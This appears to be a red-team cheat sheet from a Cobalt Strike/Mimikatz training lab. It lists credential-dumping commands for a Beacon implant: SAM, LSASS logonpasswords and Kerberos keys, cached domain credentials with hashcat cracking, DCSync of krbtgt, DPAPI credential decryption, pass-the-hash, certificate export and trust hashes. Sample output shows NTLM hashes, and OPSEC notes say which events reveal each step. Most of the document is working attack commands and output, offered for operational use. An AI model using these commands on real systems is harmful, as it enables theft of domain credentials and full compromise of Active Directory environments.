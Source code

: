 The `!` elevates Beacon to SYSTEM before running the given command, which is useful in cases where you're running in high-integrity but need to impersonate SYSTEM.  In most cases, `!` is a direct replacement for `token::elevate`. For example:

```
beacon> mimikatz !lsadump::sam
```

The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with dcsync.  This is also compatible with other impersonation primitives such as `make_token` and `steal_token`.  For example:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```


## logonpasswords

---

This module is still capable of retrieving NTLM hashes which is useful for pairing with the **Pass the Hash** or even cracking to recover the plaintext.

```
mimikatz !sekurlsa::logonpasswords
```

  **OPSEC**  
  
This module will open a read handle to LSASS which can be logged under event 4656.


## ekeys

---

The `sekurlsa::ekeys` Mimikatz module will dump the Kerberos encryption keys of currently logged on users.

Since most modern Windows services choose to use Kerberos over NTLM, leveraging these instead of NTLM hashes makes more sense for blending into normal authentication traffic.

These keys can be used in a variety of Kerberos abuse scenarios.

```
mimikatz !sekurlsa::ekeys
```

  **OPSEC**  
  
This module also opens a read handle to LSASS.


## sam

---

The Security Account Manager (SAM) database holds the NTLM hashes of local accounts only.

```
mimikatz !lsadump::sam
```

**OPSEC**  
  
This module will open a handle to the SAM registry hive.


## cache

---

Domain Cached Credentials (DCC) was designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain (think of a roaming laptop for example).  The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM so it can't be used with pass the hash.  The only viable use for these is to crack them offline.

The `lsadump::cache` Mimikatz module can extract these from `HKLM\SECURITY`.

```
mimikatz !lsadump::cache
```

For hashcat the hashes should look like this:
```
$DCC2$10240#username#hash
```

```
hashcat -a 0 -m 2100
```

**OPSEC**  
  
This module will open a handle to the SECURITY registry hive.


## dcsync

---

The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.  DCSync is a technique which leverages this protocol to extract username and credential data from a DC.

```
mimikatz lsadump::dcsync
```

In beacon:

```
dcsync dev.cyberbotic.io DEV\krbtgt
```

**OPSEC**  
  
Directory replication can be detected if Directory Service Access auditing is enabled, by searching for 4662 events where the identifying GUID is `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (for DS-Replication-Get-Changes and DS-Replication-Get-Changes-All) or `89e95b76-444d-4c62-991a-0facbeda640c` (DS-Replication-Get-Changes-In-Filtered-Set).

### For Domain and GUID

Performs a DCSync attack for a specified domain and GUID.

```
mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}
```


## dpapi

---

### Elevated

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

```
mimikatz !sekurlsa::dpapi
```

### Not Elevated

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\bfc5090d-22fe-4058-8953-47f6882f549e /rpc
```


## cred (decrypt)

---

Decrypts WCM blob.

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\6C33AC85D0C4DCEAB186B3B2E5B1AC7C /masterkey:8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
```


## cred (get MasterKey)

---

Returns the GUID of the WCM blob's MasterKey.

```
mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E
```


## Enable Authentication Over Proxy

---

Enables authentication over proxy.

```
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:DEV /user:bfarmer /ntlm:4ea24377a53e67e78b2bd853974420fc /run:mmc.exe
```


## certificates

---

### User Certificates

Exports the current user's ADCS certificates.

```
mimikatz crypto::certificates /export
```

### Computer Certificates

Exports the machine's ADCS certificates.

```
mimikatz !crypto::certificates /systemstore:local_machine /export
```


## trust

---

Dumps the domain trust hashes.

```
mimikatz lsadump::trust /patch
```

